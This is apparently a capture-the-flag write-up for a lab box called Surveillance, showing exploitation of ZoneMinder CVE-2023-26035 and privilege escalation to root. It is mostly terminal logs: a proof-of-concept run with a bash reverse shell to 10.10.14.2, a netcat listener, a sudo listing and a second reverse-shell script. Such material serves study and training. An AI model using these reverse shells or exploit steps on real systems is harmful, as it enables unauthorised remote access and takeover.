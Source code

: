 https://github.com/heapbytes/CVE-2023-26035
```bash
┌──(pwn㉿kali)-[~/Surveillance]
└─$ python3 poc.py -h
usage: poc.py [-h] --target TARGET --cmd CMD

ZoneMinder Exploit

options:
  -h, --help       show this help message and exit
  --target TARGET  Target URI (e.g., http://example.com/zm/)
  --cmd CMD        Command to execute on the target
                                                                                                                   
```

```bash
┌──(pwn㉿kali)-[~/Surveillance]

python3 poc.py --target http://127.0.0.1:8080/ --cmd "bash -c 'bash -i >& /dev/tcp/10.10.14.2/9997 0>&1'"

Fetching CSRF Token
Got Token: key:b4d3ab3c2fc8d689657369da602aa76842b844d4,1739346967
[>] Sending payload..
[!] Script executed by out of time limit (if u used revshell, this will exit the script)
                                                                                                                   
┌──(pwn㉿kali)-[~/Surveillance]
nc -nlvp 9997
```

```bash
zoneminder@surveillance:~$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *

```

```bash

`#!/bin/bash  
bash -i >& /dev/tcp/10.10.14.2/8887 0>&1`
```
## `pwn` root



